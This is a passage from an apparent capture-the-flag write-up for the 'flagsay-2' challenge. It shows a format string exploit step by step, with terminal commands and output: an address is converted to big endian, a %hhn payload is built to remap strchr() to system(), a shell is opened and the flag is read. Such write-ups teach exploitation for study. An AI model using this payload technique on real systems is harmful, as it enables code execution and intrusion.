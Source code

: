 The address is the first 4 bytes after the comma. It is 4 bytes because the binary is 32 bit, not 64 bit like Config Console. We then take this address and convert it to big endian to pass to another python script.

Address in little endian:
```
606c 69f7
```
Converted to big endian:
```
0xf7696c60
```
 
Next, we call our python script with this value in terminal 2 to generate the final format string.

Terminal 2:
```
$ python calc_system_fmt_str.py 0xf7696c60
%95x%44$hhn%35x%45$hhn                    %56x%46$hhn%147x%47$hhn

$
```

Copying this address into terminal 1 we have remapped the ```strchr()``` to ```system()```. Now we need only enter ```/bin/sh``` to execute a shell. Then, we simply cat the flag.

Terminal 1:
```
%95x%44$hhn%35x%45$hhn                    %56x%46$hhn%147x%47$hhn
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //                                                                                        8f8e049                           f77abc20             /
            //                                                        8048722                                                                                                                                            8f8e049     /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
/bin/sh
ls
flagsay-2
flag.txt
xinetd_wrapper.sh
cat flag.txt
0729f4ba0e0152ca2786f59d1a18b517
```
